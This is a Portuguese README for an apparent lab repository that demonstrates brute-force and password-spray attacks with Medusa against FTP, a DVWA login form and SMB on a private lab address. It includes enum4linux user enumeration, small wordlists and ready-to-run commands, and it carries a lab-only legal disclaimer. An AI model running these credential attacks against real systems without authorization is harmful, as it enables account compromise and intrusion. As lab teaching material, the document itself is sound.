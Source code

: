 # 💀 Ataques de Força Bruta com Medusa e Enumeração de Usuários

Este repositório demonstra exemplos práticos de **ataques de força bruta e password spray** utilizando a ferramenta **Medusa**, aplicados em protocolos **FTP**, **HTTP (DVWA)** e **SMB**.  
O conteúdo é destinado a fins **educacionais e de laboratório**, visando compreender métodos de ataque e defesa no contexto de segurança ofensiva.

> ⚠️ **Aviso Legal:**  
> Este material é destinado **exclusivamente para fins de estudo em ambientes controlados** (como laboratórios virtuais).  
> Nunca execute estes comandos em sistemas sem autorização expressa. O uso indevido pode violar leis de segurança digital.

---

## 🧩 Pré-requisitos

- Sistema Linux (recomendado: Kali Linux)
- Ferramentas necessárias:
  - `medusa`
  - `enum4linux`
  - `smbclient`

---

## 📁 Estrutura de Arquivos

| Arquivo | Descrição |
|----------|------------|
| `users.txt` | Lista de possíveis usuários para ataque de força bruta |
| `pass.txt` | Lista de senhas comuns para teste |
| `smb_users.txt` | Lista de usuários SMB gerada para password spray |
| `senhas_spray.txt` | Lista de senhas reduzida para password spray |
| `enum4_output.txt` | Resultado da enumeração de usuários SMB |

---

## 🚀 Ataque de Força Bruta (FTP)

Criação das wordlists iniciais:

```bash
echo -e "user
msfadmin
admin
root" > users.txt
echo -e "123456
password
qwerty
msfadmin" > pass.txt
```

Execução do ataque:

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
```

---

## 🌐 Ataque de Força Bruta em Formulário Web (DVWA)

### 1️⃣ Configuração da URL de Login

- URL de destino:  
  `http://192.168.56.102/dvwa/login.php`

### 2️⃣ Execução do ataque com Medusa

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&login=Login' \
-m 'FAIL=Login failed' -t 6
```

---

## 🔁 Password Spray (SMB)

### 1️⃣ Enumeração de Usuários

```bash
enum4linux -a 192.168.56.102 | tee enum4_output.txt
less enum4_output.txt
```

### 2️⃣ Criação das Wordlists

```bash
echo -e "user
msfadmin
service
suslog
www-data
root
news
postgres
mail
mysql
backup" > smb_users.txt
echo -e "123456
password
welcome123
msfadmin" > senhas_spray.txt
```

### 3️⃣ Execução do Ataque

```bash
medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

### 4️⃣ Teste de Acesso com Credenciais Encontradas

```bash
smbclient -L //192.168.56.102 -U msfadmin
```

---

## 🧠 Conceitos Envolvidos

| Termo | Descrição |
|--------|------------|
| **Força Bruta** | Técnica que testa todas as combinações possíveis de usuário/senha. |
| **Password Spray** | Ataque que testa poucas senhas comuns em muitos usuários para evitar bloqueios. |
| **Enumeração (enum4linux)** | Processo de listar usuários e compartilhamentos SMB antes do ataque. |
| **DVWA (Damn Vulnerable Web App)** | Aplicação vulnerável usada para práticas seguras de pentest. |

---

## 🧰 Referências

- Medusa Project - SourceForge
- Enum4linux GitHub
- DVWA Official Page

---

## 📜 Licença

Distribuído sob a licença **MIT**. Consulte o arquivo `LICENSE` para mais detalhes.

---

## ✍️ Autor

**Everton Alves**

